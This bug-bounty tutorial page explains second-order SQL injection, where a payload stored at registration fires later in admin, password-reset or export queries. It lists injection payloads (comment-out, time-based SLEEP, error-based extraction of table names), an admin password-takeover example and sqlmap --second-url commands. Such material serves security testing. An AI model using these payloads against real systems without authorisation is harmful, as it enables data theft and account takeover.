


> Source: https://bugbounty.info/Attack-Surface/Web/Injection/SQLi/Second-Order

# Second-Order SQL Injection

The payload goes in safely. It's stored. No injection fires at storage time. Then later  -  at a different endpoint, in a different context, maybe only visible to an admin  -  the stored value gets pulled and used in a query without parameterization. Second-order is the one developers almost never think to test, and automated scanners miss entirely.

## How It Works



## Why It's Missed

Most scanners test input -> immediate response. Second-order requires:

1. Storing a payload at step 1
2. Triggering execution at step 2 (different request, different session, maybe different role)

There's no single request that reveals the vulnerability. You have to correlate across requests and roles.

## Classic Pattern  -  Registration -> Admin Panel

The registration flow sanitizes input but stores the raw value. The admin panel retrieves the username and uses it in a raw query:

```sql
-- Registration INSERT (parameterized  -  safe)
INSERT INTO users (username, password) VALUES (?, ?)
 
-- Admin panel query for user activity (raw string  -  VULNERABLE)
SELECT * FROM activity_log WHERE username = 'admin'--'
```

Payload to register as: `admin'--`

This comments out everything after the username in the admin query. Depending on the query, this could:

- Return all activity logs (no WHERE filtering)
- Cause a syntax error that reveals DB info
- Skip a permission check

## Injection Payloads for Registration

```sql
-- Classic comment-out (MySQL / MSSQL)
admin'--
admin' #
 
-- Trigger error for fingerprinting
admin' AND EXTRACTVALUE(1,version())--
 
-- Boolean test
admin' AND '1'='1
admin' AND '1'='2
 
-- Time-based confirmation
admin' AND SLEEP(5)--
 
-- Data extraction via error (if admin panel shows errors)
admin' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables LIMIT 0,1)))--
```

## Where to Look for Second-Order Triggers

### User-Controlled Fields That Get Re-Used in Queries

- **Username**  -  used in audit logs, activity queries, admin search
- **Email**  -  used in "find user by email" admin functionality
- **Display name**  -  rendered in reports with raw queries
- **Address / company name**  -  billing system queries
- **File names**  -  upload filename used in a later DB lookup
- **Custom fields / metadata**  -  profile fields queried in search

### High-Value Trigger Points

```text
1. Password reset  -  "reset password for username X"
   -> Payload in username, triggers in password reset query
 
2. Admin user management  -  admin views all users
   -> Payload in username/email, renders in admin panel query
 
3. Email notification system  -  sends email using stored user data
   -> Payload in name field, used in query to build email
 
4. Export / report generation  -  "export all user data as CSV"
   -> Payload in any stored field, triggers in the export query
 
5. Search functionality  -  search for "users named X"
   -> Payload in name, re-queried in search without sanitization
```

## Testing Methodology



### Step-by-Step

1. **Register / create a record** with a payload in every field: `admin'--`, `test' AND SLEEP(5)--`, `' OR '1'='1`
2. **Log in** and use the app normally  -  does anything behave differently?
3. **Check every page** that displays your stored data.
4. **Trigger admin operations** on your account  -  flag it for review, submit a support ticket.
5. **If you have admin access** (separate test account or part of scope), log in as admin and view the account you poisoned.

## Real-World Example  -  Password Change

```sql
-- Vulnerable password change code (pseudocode)
username = get_from_session()  -- retrieved from DB, originally stored raw
query = "UPDATE users SET password='" + new_hash + "' WHERE username='" + username + "'"
```

If `username` was stored as `admin'--`, this becomes:

```sql
UPDATE users SET password='newhash' WHERE username='admin'--'
```

The `--` comments out the closing quote  -  this updates the `admin` account's password, not yours. Second-order privilege escalation to admin.

## sqlmap  -  Second-Order Mode

```bash
# sqlmap can test second-order with the --second-url flag
# Step 1: inject at /register
# Step 2: check for injection effect at /profile
 
sqlmap -u "https://target.com/register" \
  --data="username=*&email=test@test.com&password=test" \
  --second-url="https://target.com/admin/users" \
  --batch --dbs
 
# If admin cookies are needed for the trigger URL
sqlmap -u "https://target.com/register" \
  --data="username=*&email=test@test.com" \
  --second-url="https://target.com/admin/users" \
  --cookie="admin_session=ADMIN_TOKEN" \
  --batch
```

## Public Reports

- Second-order SQLi via username field triggers in admin panel query - [HackerOne #1191601](https://hackerone.com/reports/1191601)
- Stored username with SQL payload fires during password reset flow - [HackerOne #1163516](https://hackerone.com/reports/1163516)
- Second-order injection in profile display name used raw in export report query - [HackerOne Hacktivity search](https://hackerone.com/hacktivity?querystring=second+order+sql+injection)
- Payload stored in file upload name triggers SQLi in admin file management view - [HackerOne #1055826](https://hackerone.com/reports/1055826)

## Related

- [SQLi Overview](../../../../SQLi/)
- [Error-Based](../../../../Attack-Surface/Web/Injection/SQLi/Error-Based)
- [Blind](../../../../Attack-Surface/Web/Injection/SQLi/Blind)
